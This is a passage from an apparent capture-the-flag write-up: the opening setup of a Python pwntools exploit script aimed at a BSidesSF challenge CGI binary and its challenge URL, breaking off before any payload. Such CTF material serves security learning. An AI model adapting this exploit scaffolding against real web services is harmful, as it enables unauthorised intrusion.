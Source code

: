 <figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Below is the full exploit script:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *
import requests
from subprocess import run

# =========================================================
#                          SETUP                         
# =========================================================
exe = './auth.cgi'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
VICTIM = 'http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/cgi-bin/auth.cgi'

def initialize(env, argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, env=env)
    else:
        return process([exe] + argv, env=env)

gdbscript = '''
init-pwndbg
break *0x040175d
'''.format(**locals())

```